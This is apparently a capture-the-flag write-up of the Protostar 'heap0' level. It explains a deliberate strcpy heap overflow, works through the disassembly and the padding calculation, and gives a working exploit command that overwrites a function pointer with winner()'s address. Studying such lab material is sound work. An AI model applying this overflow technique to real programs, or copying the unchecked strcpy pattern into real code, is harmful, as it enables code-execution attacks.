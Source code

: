 # HEAP 0

## SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
    char name[64];
};

struct fp {
    int (*fp)();
};

void winner()
{
    printf("level passed\n");
}

void nowinner()
{
    printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
    struct data *d;
    struct fp *f;

    d = malloc(sizeof(struct data));
    f = malloc(sizeof(struct fp));
    f->fp = nowinner;

    printf("data is at %p, fp is at %p\n", d, f);

    strcpy(d->name, argv[1]);                      // <- Buffer Overflow Vuln occurs in here
    
    f->fp();
}
```

## OVERVIEW

- The name of this challenge has reviewed for us what we will do in this challenge. Hehe yes, we will work with heap.
- Look at the main function, we can see that, we have 2 pointer variable that point to struct variable, it's `data` and `fp` that is defined at the top of code.
  + Inside the `data` has a member variable `name`, which is a array of char.
  + The `fp` has a member variable function pointer, which is point to a function address.
- Outside the main function, we have another `nowinner` and `winner` function that print something, and this challenge's target is run into `winner` function.
- After initializing 2 pointer variable `d` and `f`, the program allocates memories for them with `malloc()`, then the pointer to a function `fp` of `f` is assigned with address of `nowinner` function, then the program prints the address of `d` and `f`, then copy the `arg[1]` and put it in `d->name` by `strcpy()` and run into the function that `fp` point at.

```
root@protostar:/opt/protostar/bin# ./heap0 AAAA
data is at 0x804a008, fp is at 0x804a050
level has not been passed
```
- But, look at the `strcpy()` function, this function was descripted by this code `char *strcpy(char *restrict dest, const char *src);`. 
- The function takes 2 pointer that point to char type `dest` and `src`. `strcpy()` copies the content that's pointed by `src` including the null byte `('\0')` to the `dest` content that's pointed by `dest`. The function does not limit the size that is copied.
- So, we can take advantage Buffer Overflow Vuln to fill up from `d->name` to `f->fp`, and at `f->fp`, we overwrite the address of `winner` function.

## DETAILS

- This is a disassembly code of main function. We can see in assembly level, the operation of malloc() is just create a memory that can be used and return the address of that memory for a variable that call to it.

```asm
(gdb) disass main
Dump of assembler code for function main:
0x0804848c <main+0>:    push   ebp
0x0804848d <main+1>:    mov    ebp,esp
0x0804848f <main+3>:    and    esp,0xfffffff0
0x08048492 <main+6>:    sub    esp,0x20
0x08048495 <main+9>:    mov    DWORD PTR [esp],0x40            ;<- feed argument for malloc() in stack
0x0804849c <main+16>:   call   0x8048388 <malloc@plt>          ;<- call malloc()
0x080484a1 <main+21>:   mov    DWORD PTR [esp+0x18],eax        ;<- return value that is address of memory allocated in heap is held in eax
0x080484a5 <main+25>:   mov    DWORD PTR [esp],0x4             ; repeate the task
0x080484ac <main+32>:   call   0x8048388 <malloc@plt>          ;
0x080484b1 <main+37>:   mov    DWORD PTR [esp+0x1c],eax        ;
0x080484b5 <main+41>:   mov    edx,0x8048478
0x080484ba <main+46>:   mov    eax,DWORD PTR [esp+0x1c]
0x080484be <main+50>:   mov    DWORD PTR [eax],edx
0x080484c0 <main+52>:   mov    eax,0x80485f7
0x080484c5 <main+57>:   mov    edx,DWORD PTR [esp+0x1c]
0x080484c9 <main+61>:   mov    DWORD PTR [esp+0x8],edx
0x080484cd <main+65>:   mov    edx,DWORD PTR [esp+0x18]
0x080484d1 <main+69>:   mov    DWORD PTR [esp+0x4],edx
0x080484d5 <main+73>:   mov    DWORD PTR [esp],eax
0x080484d8 <main+76>:   call   0x8048378 <printf@plt>
0x080484dd <main+81>:   mov    eax,DWORD PTR [ebp+0xc]
0x080484e0 <main+84>:   add    eax,0x4
0x080484e3 <main+87>:   mov    eax,DWORD PTR [eax]
0x080484e5 <main+89>:   mov    edx,eax
0x080484e7 <main+91>:   mov    eax,DWORD PTR [esp+0x18]
0x080484eb <main+95>:   mov    DWORD PTR [esp+0x4],edx         ; feed the argument for strcpy
0x080484ef <main+99>:   mov    DWORD PTR [esp],eax             ; 
0x080484f2 <main+102>:  call   0x8048368 <strcpy@plt>          ; call strcpy
0x080484f7 <main+107>:  mov    eax,DWORD PTR [esp+0x1c]
0x080484fb <main+111>:  mov    eax,DWORD PTR [eax]
0x080484fd <main+113>:  call   eax
0x080484ff <main+115>:  leave
0x08048500 <main+116>:  ret
End of assembler dump.
```

- But we can just run the program to take the 2 address of memory in heap and calculate the padding that we must to fill up to reach the `f->fp` function pointer and overwrite it with `winner` address. Then done~

```bash
root@protostar:/opt/protostar/bin# ./heap0
data is at 0x804a008, fp is at 0x804a050
Segmentation fault
```
- We get the address of 2 block of memory, so the bytes we must to fill up is `0x804a050 - 0x804a008 = 72 bytes`.

- Disassembling the `winner` function and we found the address of it is in `0x08048464`

```asm
(gdb) disass winner
Dump of assembler code for function winner:
0x08048464 <winner+0>:  push   %ebp
0x08048465 <winner+1>:  mov    %esp,%ebp
0x08048467 <winner+3>:  sub    $0x18,%esp
0x0804846a <winner+6>:  movl   $0x80485d0,(%esp)
0x08048471 <winner+13>: call   0x8048398 <puts@plt>
0x08048476 <winner+18>: leave
0x08048477 <winner+19>: ret
End of assembler dump.
```

- Now, we have all the required elements, let's exploit it!

## EXPLOIT

- Command
```
./heap0 $(python -c 'print("a"*72 + "\x64\x84\x04\x08")')
```

## RESULT

```
root@protostar:/opt/protostar/bin# ./heap0 $(python -c 'print("a"*72 + "\x64\x84\x04\x08")')
data is at 0x804a008, fp is at 0x804a050
level passed
```